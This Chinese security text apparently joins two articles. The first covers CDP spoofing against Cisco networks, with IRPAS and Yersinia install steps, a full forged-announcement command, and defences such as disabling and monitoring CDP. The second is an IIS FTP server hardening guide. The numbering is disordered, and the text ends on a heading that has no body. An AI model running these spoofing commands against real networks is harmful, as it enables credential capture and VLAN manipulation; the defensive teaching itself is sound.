1. 针对中央管理软件，各种高端网管软件Cisco works、IBM Tivoli、HP open view,都依赖CDP完成Cisco主机发现。如果发送伪造的CDP帧，声称在网络上新出现了一台Cisco设备，那么管理软件将试图通过SNMP与其联系，此时就有机会捕获所使用的SNMP Community name string，这样很可能是网络中其他Cisco设备所使用的名称，而且很可能会导致这些设备遭到攻击。此外，CDP欺骗还可用于恶作剧，分散网络管理员的注意力。

2. 第二个目标就是Cisco IP电话Cisco ip电话打开后，就会和相连的交换机开始交换CDP数据，，相互识别，交换机利用CDP通知电话，让它知道语音流量将使用那个VLAN，不难发现，这里有机会实施欺骗攻击，例如注入CDP帧。这样会为电话分配一个错误的VLAN。

这些手动伪造的CDP帧是如何制造出来的呢？主要有

两种工具可定制伪造CDP帧。下面让我们先看看Linux平台下IRPAS中的CDP工具程序。

下面我们看看Irpas的安装和使用过程。

### （1）下载

http://dag.wieers.com/rpm/packages/irpas/

### （2）安装irpas包

```
rpm -ivh irpas-0.10-1.dag.src.rpm
cd /usr/src/redhat/SOURCES/
tar zxvf irpas_0.10.tar.gz
cd libpcap-0.4
./configure;make （安装libpcap0.4不能省）
cd..
make

[root@rhel5 SOURCES]#./cdp
./cdp [-v] -I <interface> -m {0,1} ...
Flood mode (-m 0):
-n <number> number of packets
-l <number> length of the device id
-c <char> character to fill in device id
-r randomize device id string
Spoof mode (-m 1):
-D <string> Device id
-P <string> Port id
-L <string> Platform
-S <string> Software
-F <string> IP address
-C <capabilities>
These are:
R — router , T — Trans Bridge, B — Source Route Bridge
S — Switch , H — Host , I — IGMP , r — Repeater
```

### （3）实例

```
#./cdp -v -I eth1 -m 1 -d 'Router66' -P 'FasteEthernet 0/1' -C RI \-L 'cisco' -s 'IOS 12.4.6' -F '192.168.1.9'
```

第二种工具就是Yersinia工具，Yersinia 是执行第二层攻击的一个工具，帮助黑客测试者在他的日常工作中检查2层协议配置的可靠性。Yersinia 能够操作第二层网络协议和允许攻击者阻挡交换机通过注入伪生成树协议，DHCP，VLAN 中继协议和其他信息到网络中。

### （1）安装

```
tar zxvf yersinia-0.7.tar.gz
./configure;make;make install


```

（2）以GUI界面启动Yersinia输入“Yersinia -G”（如图1）。
图1

（3）以字符界面启动输入“Yersinia -I”（如图2）。
图2

## 二、CDP欺骗攻击的防御措施

运行CDP的交换机/路由器定时广播带有CDP更新数据的报文，用cdp timer命令决定CDP更新数据间隔，缺省值为60秒，而且CDP默认已启用。

我们在一台Cisco Catalyst 2924交换机上对CDP数据包的诊断输出信息。可以看到，交换机在每个活动接口发送CDP数据包。

```
SW#debug cdp packet
03:36:26 CDP-PA Packet received form R1 on interface FastEthernet0/5.


























```

works或类似软件下，CdP模式的任何变化都会报告。如果要在windows环境监控Cdp的变化，建议使用Cdp Monitor，安装好后运行界面（如图3、4、5）。
我们如何关闭CDP协议呢？需要在交换机/路由器的全局模式下用 `no cdp enable`。如果是Cisco CatOS则使用 `set cdp disable` 来禁用CDP。
### 二、监控CDP协议

由于CDP协议不实施任何认证，因此任何人都可以通过上面的方法在网络上发送定制CDP帧，没有什么更好的解决措施除非就不使用CDP，所以我们只有在发现非正常的CDP流量或意外的CDP设备后，应立即开展调查，检查数据帧来自那个MAC地址以及承载有何种信息。在使用Cisco设备时，应特别注意CDP协议的监控和关闭。
通过这款软件使得当有CDP发生变化时可立即通过mail方式通知管理员，并鸣笛报警。综上所述，对于有设备彻底放置CDP欺骗的方法，只能说让大家保持警惕，且没有什么更好的解决措施，除非首先就不使用CDP。

# 常见的网络攻击

FTP是一种常见的网络服务，即计算机之间进行文件传输的一种常用方法，然而FTP对广大企业各种网络攻击的网络安全工作人员来说，工作中必然会遇到各种各样的FTP攻击，普通管理员会认为Windows下FTP服务安全性比较弱，安全性尤其……法保证，所以在Windows server加装了第三方FTP程序，以满足自己的要求。经过笔者多年研究发现，其实利用IIS下的FTP服务器，经过和系统配合设置就能很好的满足您的要求。所谓维护型安全FTP是指不公开使用或者很少公开使用的，一般只供网络管理员或者安全工程师在维护服务器时使用的FTP系统。这样的系统在工作中非常需要，但是因为本身是不公开的，所以安全性往往得不到足够的重视，成为很多攻击者喜欢攻击的目标。本文讲述了不为大家熟知几种技巧来教授如何使用大家都不看好的IIS FTP Server来构建足够网络管理员维护的FTP服务器，而且安全性足够高。

### 一、指定FTP IP地址并修改默认端口

#### 1. 使用专用IP进行FTP服务器搭建

以典型的Windows 2003 Server系统为例，安装完成IIS以及FTP以后，依次选择“开始->管理工具->Internet信息服务IIS管理器”（如图1）。
指向“FTP站点”右击鼠标并选择“新建->FTP站点”，进入“FTP站点创建向导”。在此向导中，重点介绍为即将建立的安全的维护型FTP服务器指定IP地址并修改端口。

#### 2. 使用足够隐蔽的端口进行通信

“端口”设置建议不使用默认端口，而是将默认端口设置成一个不常用的，大于10000、小于65535的端口号。

之所以要设置大于10000，小于65535是因为很多端口扫描工具默认情况下都不会扫描这部分端口，而攻击者如果手动设置扫描端口的话，出于时间和速度的考虑，也很少定义1-65535这样的端口扫描规则，所以很容易迷惑攻击者，让他们根本不知道原来还有一个高端端口隐蔽在系统中发挥作用（如图2）。

即使攻击者用扫描器扫到了这个端口，往往也会因为这个陌生的端口而不明白具体运行的服务，需要详细探测才有可能发现是FTP服务。接下来，将对此新建的FTP服务器进行详细的安全配置。

### 二、定制详细的FTP日志记录相关信息

IIS的FTP系统有非常完善、丰富的日志记录系统，使用日志系统来记录FTP服务器的运行状态是非常重要的。

#### 1. 启用FTP服务器的日志记录功能

在默认情况下，IIS管理器下FTP站点中的某个站点的FTP日志系统默认是启用的。

#### 2. FTP服务器的高级日志配置

和普通的FTP服务器要求不同，如果需要建立足够安全的FTP服务器，需要对日志系统进行详细的高级定义，定义的内容就是设置攻击者或者可能发生的攻击可能存在的典型特征。

详细需要定制的高级规则如下：

“新日志计划”：此选项控制每个日志文件的生成规则，默认是每天生成一份新的FTP日志。

假定攻击者绕过了种种限制，对某目标FTP服务器进行了大批量的分布式暴力破解攻击，如果FTP日志是按默认的记录方式记录的，则会产生无比庞大的单一文件有时候日志记录文件可能达到数十GB的大小，甚至超出系统盘的空间，导致系统的正常运行出现问题。
所以这里需要首先确定FTP的日志按照文件大小来生成，选择“新日志计划”下的“当文件大小达到20MB”时开始生成新的日志记录文件，方便分析和调用；“日志文件目录”：此选项是非常重要的选项，定义FTP日志的存放地址，默认是存放在“C:\WINDOWS\system32\LogFiles”下（如图3）。

对于任何被攻击者广泛了解的默认选项，都应该进行相关的在可允许范围内修改。同时，出于对操作系统所在盘的保护，建议将FTP的日志系统定义到每个FTP用户单独使用的文件夹下，但不能赋予该用户对此日志记录文件的访问权限。

#### 3. 定义FTP服务器日志的详细记录规则

在配置好日志文件的生成规则和路径以后，需要对日志文件记录信息的类型进行详细配置。一个能记录绝大多数攻击者和使用者行为的日志文件应该包含以下记录信息：

- 日期（非默认选中，需要手动选中）；
- 时间（默认选中）；
- 客户端IP地址（默认选中）；
- 用户名（非默认选中，需要手动选中）
- 方法（默认选中）；
- URL资源（默认选中）；
- 协议状态（默认选中）；
- Win32状态（默认选中）；
- 所用时间（非默认选中，需要手动选中）；
- 用户代理（非默认选中，需要手动选中）；

需要注意的是，并不是日志系统记录的信息越多就越好，因为日志系统记录FTP用户（攻击者或者正常用户）的访问毕竟需要消耗资源，而且生成的日志记录同样需要存放空间。如果记录项目过多，可能引起系统资源消耗日志文件占用空间大的问题。
### 三、取消匿名访问

匿名访问是FTP服务器的默认设置，此设置可以很好地支持普通用户的FTP访问，但是要建立安全性足够的FTP服务器的话，此项设置必须去除（如图4）。

去除FTP服务器的匿名访问功能很简单，只需要指向IIS管理器下的需要修改的FIP站点，右击并选择“属性”，进入“安全账户”标签，取消“允许匿名连接”前的√即可。

### 四、强制安全密码规则

在有意无意之中，一些用户的FTP账号密码设置得过于简单，为了提高FTP服务器的安全性，特别是需要建立安全性足够强的维护型FTP服务器，必须强制用户设置复杂的账号密码。

#### 1. 组策略简介

在Windows系统中，密码的规则设置是由组策略所控制的。简单地说，组策略设置就是在修改注册表中的配置。当然，组策略可以对各种对象中的设置进行管理和配置，远比手工修改注册表方便、灵活，功能也更加强大。

依次指向“开始一运行”，输入“gpedit.msc”进入Windows 2003 Server系统的组策略选项。进入组策略选项以后，在左方快速链接栏中依次指向“计算机配置→Windows设置→账户策略→密码策略”，这里可以设置很多密码的相关安全规则（如图5）。
#### 2. 启用密码复杂性要求策略

在右侧矿体中找到“密码必须符合复杂性要求”项，然后双击打开后，选中“已启用”按钮（如图6），最后单击确定使之生效。
如果启用“密码必须符合复杂性要求”策略，在更改或创建账户（密码）时就会执行复杂性策略检查，密码必须符合下列最低要求：

- a.密码不能包含账户名；
- b.密码不能包含用户名中超过两个连续字符的部分；
- c.密码至少有6个字符长度；
- d.策略包含以下4类字符中的至少3类字符：英文大写字母(A-Z)、英文小写字母(a-z)、10个基本数字(0-9)、特殊字符（例如！、$、#、%）。

#### 3. 启用密码长度最小值策略

另外，更具安全密码规则中密码长度的要求，可以双击“密码长度最小值”进行最小密码长度的设置。例如把最小长度设置为8个字符，经过这样的设置，FTP用户（乃至系统用户）的密码安全性就大大地提高了，系统安全性也就大大增强了。

### 五、使用专用账户访问FTP服务

维护型的FTP服务器使用者一般是网络管理员，所以不存在大量用户使用的问题，一般都是机构管理员在分别使用。

针对这样的情况，如果采用IIS下的FIP Server构建服务器的话，首先应该考虑的是去掉默认FTP服务器中的匿名访问，然后建立专用的FTP账户，最后为专用的FTP账户指派访问目录。

#### 1. 建立专用FTP账户

假定有5个管理员需要对服务器进行经常性的维护，而且各自的工作职能不同，那就需要建立至少5个专用FTP账户（如图7）。
图7

Net user ft01 pass11@! wd /add重复上述用户建立设置，依次建立ftp01~ftp05等几个账户。

#### 2. 建立专用账户对应的FTP文件夹

建立好FTP专用账户以后，需要为专用账户指派FTP目录，以系统管理员身份找到根文件夹，分别为每个用户建立一个对应的文件夹，例如用户ftp01就对应ftp01文件夹、

ftp02用户对应ftp02文件夹……上述几个步骤只是简单地建立了几个可用账户，远远没有达到实现安全FTP的目的，下述内容将进行详细设置。

### 六、使用NTFS约束FTP用户权限

在管理员各自对应的FTP用户建立好之后，并不能直接使用，需要对各账户进行详细的权限设置。

#### 1. 将FTP用户权限限定为Guest组

使用“net user”命令建立的系统用户默认是属于“user”组，在系统中具有一定的权限。首先需要做的是删除这些FTP用户的“user”组权限，并将它指派成Guest用户组中的一员（如图8）。

使用如下命令删除刚建立的各账户的“user”组权限：Net localgroup users ftp01 /del

然后使用如下命令将该账户指派到系统的“Guest”用户组：Net localgroup guests ftp01 /add
图8

现在的各个FTP账户都处于“Guest”用户组，权限非常低。删除并更改完FTP用户的所属用户组以后，需要对各个FTP用户对应的文件夹进行权限设置。

#### 2. 删除各FTP文件夹继承权限

以ftp01账户对应的ftp01文件夹为例，以系统管理员身份登录，选中文件夹并右键选择“安全”选项卡，默认情况下这里有非常多的已经继承于上级文件夹的权限，我们需要做的是删掉这些默认的权限，但是在删除的时候会出现系统提示：因为“SYSTEM”从其父系继承权限，您无法删除此对象。要删除“SYSTEM”必须阻止对象继承权限。关闭继承权限的选项，然后重试删除“SYSTEM”因为权限是继承上级文件夹的，所以不能直接删除，需要单击“高级”按钮，进入此文件夹的“高级安全设置”（如图9）。

#### 3. 为FTP用户指派文件夹访问权限

此时的文件夹是系统中很多用户都不能直接使用的，挂即使是管理员也无法直接打开。这时候需要为FTP账户指派访问权限。选中文件夹“安全”选项卡下的“添加”，分别选择“高级-立即查找”，选中上述建立的FTP专用用户即可。此时ftp01默认已经有部分权限，包括“读取和运行”、“列出文件夹目录”、“读取”3种。作为系统管理员们使用的维护型FTP，显然需要经常使用上传功能，所以这里需要选中“写入”权限。

上述各选项均为基本的FTP设置选项，完成以后具有一定安全性的维护型FTP服务器就建立好了，但是要做到高安全性还是不够，需要进行其他一些设置。
#### 7. 强制密码历史策略

如果遇到构造巧妙的暴力破解攻击，管理员是很难受的。一个安全的、少数人使用的FTP服务器中，每个用户应当经常性（在用户可以承受的日期以内）地修改密码，以缩短被暴力破解的时间，保护密码安全是需要重点注意的。在Windows 2003 Server系统中，组策略可以使用“强制密码更改时间”和“强制密码历史”策略做到这一点。具体来说，如何在尽量不影响用户正常使用的前提下，尽量限制暴力破解的时间呢？在Windows系统下，可以使用强制密码更改时间策略实现；如何避免很多用户（包括管理员）习惯使用2、3个固定密码进行循环得非常安全违规呢？可以使用强制密码历史策略。

##### 1. 启用强制密码更改时间策略

为了大大缩短暴力破解攻击可以发起的时间，极度降低暴力破解的成功率，在不影响用户的正常使用的前提下，强制性地要求用户定期修改自己的FTP密码是非常重要的一个安全措施。一组策略可以完成这样的策略指派。

使用“gpedit.msc”命令打开组策略编辑器，在“计算机配置”下的“安全设置”、“账户策略”、“密码策略”下，可以看到“密码最短使用期限”和“密码最长使用期限”。

##### 2. 启用强制密码历史策略

“强制密码历史”策略是指用户在重新使用旧密码之前，该用户所使用的新密码必须不能与自己所使用的最近的旧密码一样。该策略通过确保旧密码不能在某段时间内重复使用，使用户账户更安全，需要说明的是，如果管理员希望“强制密码历史”安全策略选项设置有效，需要将“密码最长使用期限”配置为大于0。如果没有密码最长使用期限，则FTP用户可以重复循环通过密码规则的密码，直到获得喜欢的旧密码。

默认设置不遵循这种推荐方法，因此管理员可以为用户指定密码，然后要求当用户登录时更改管理员定义的密码。如果将该密码的历史记录设置为0，则用户不必选择新密码。因此，一般情况下将密码历史记录设置为1。

##### 1. 定义账户锁定阈值

“错误锁定”策略在组策略“计算机配置”中的“安全设置”、“账户策略”、“密码策略”下。双击打开“账户锁定阈值”，这个安全策略确定导致FTP用户账户被锁定的登录尝试失败的次数，在管理员重置锁定账户或账户锁定时间期限之前，无法使用该锁定账户。也就是说，如果达到管理员设置的登录错误次数，则该账户将被锁定。管理员可以将登录尝试失败次数设置为介于0～9999之间的值，如果将值设置为0，则永远不会锁定账户。

一般情况下，为了对暴力破解（或者社会工程学破解）攻击的防御，设置账号登录的最大次数在3～10次左右。

右，如果攻击者尝试登录该账户超过此数值，账号会被自动锁定。

#### 2. 定义账户锁定时间

设置完“错误锁定”策略后，打开“账户锁定时间”策略，这里设置FTP账号被锁定的时间，账号一旦被锁定，超过这个时间值，才能重新使用，界面（如图10）。
### 九、启用目录安全性杜绝大多数各类FTP攻击

经过上述设置，一个安全性足够、使用效率很高的FTP服务器已经架设成功，但是作为一个专门为管理员服务的维护型FTP服务器，如果能做到下面的一个设置，将把整体的安全性提高至少2个档次！

不管是什么样的FTP攻击，能登录是最基本的一个步骤，也是绝大部分攻击发起的目标成果，如果系统管理员采用“一招制敌”的方式，直接掐断非法用户的FTP登录功能，让攻击者无法使用（或者非常难使用）暴力破解攻击，让攻击者得到FTP账户密码也没有登录权限的话，就能解决起码90%以上的攻击！

在IIS的FTP Server中，“目录安全性”可以实现这个功能，不过根据管理员不同的环境，策略会有些许变化。

依次指向IIS管理器的FTP站点，右击并选择“ftp属性”，打开“目录安全性”，在界面中选择“拒绝访问”，然后单击“添加”按钮定义允许访问的单一计算机、多台计算机，设置好的界面“目录安全性”是通过FTP用户的登录IP进行判断的一种机制，上图中的“拒绝访问”代表默认拒绝所有IP的FTP使用请求，除非请求登录FTP的计算机IP地址包含在“下面列出的除外”列表框中（如图11）。

通过这个设置，管理员可以控制唯一的、或者是极少的绝对信任IP可以使用。例如，在一个大型的公司网络中，全部员工都是使用的固定IP连接网络（或使用固定IP地址的出口网关上网），管理员可以定义只允许此IP地址的计算机或计算机群进行FTP服务器的使用，其他地址均不能访问FTP服务器。

经过这样的设置，所有的外部攻击者都被阻挡在FTP服务器以外了。不过这个功能在两种情况下可能存在缺陷：

第一种情况是攻击者使用了IP伪造技术，不但成功欺骗了互联网，还成功欺骗了服务器，让服务器以为攻击者就是被允许访问中的一员，从而让攻击者达到攻击服务器的目的。不过这样的攻击难度实在太大，相信没有几个攻击者愿意尝试。
第二种情况是攻击者通过渗透攻击等方式，控制了和服务器管理员同IP的计算机，比如管理员的同事等，然后在管理员同事的计算机上进行FTP攻击。当然，这样的渗透攻击本身就难于FTP攻击，所以现实中存在的类似攻击也是相当少。

### 十、对配置后的服务器进行最后的演练

有防御就有攻击，任何安全工程师都不可能说自己构建的防御体系是完美的，是不可能被攻破的。所以下面将针对上述的各项安全措施防御的维护型FTP服务器，进行理论化的高级攻防演练：

如果攻击者采用传统的暴力破解技术，那无疑是不能直接对上述加固后的FTP服务器进行穷举的，因为FTP服务器不但有IP限制策略，也就是目录安全性策略，就算攻击者成功地获得了一台允许使用FTP服务器的计算机（或某IP），有很大几率会卡在FTP服务器的端口隐藏策略、密码安全策略、密码更换策略、账户登录错误锁定策略等相关安全策略之中。

就现在的网络技术而言，一般情况下要对上述的安全FTP服务器进行暴力破解，成功率接近于零。如果攻击者想采用漏洞攻击，先不说目录安全性策略是否能绕过，就目前存在的、公布的漏洞来看，这样的漏洞还没有可用的（当然，不排除有非常牛的攻击者研究出了IIS下的FTP惊天漏洞而未公布）。如果攻击者采用嗅探技术获得上述FTP服务器的密码，那么接着需要解决的就是目录安全性的问题（也就是IP策略）、可能遇到的密码定期更改问题等。

总的来说，上述IIS下FTP服务器可能随着攻防技术的不断进步而产生漏洞，但就目前的技术水平来看，单就FTP服务本身而言（不包括服务器其他方面的服务出现漏洞等情况），安全性有了显著提高。

## Q币骗术详解

丁济邦

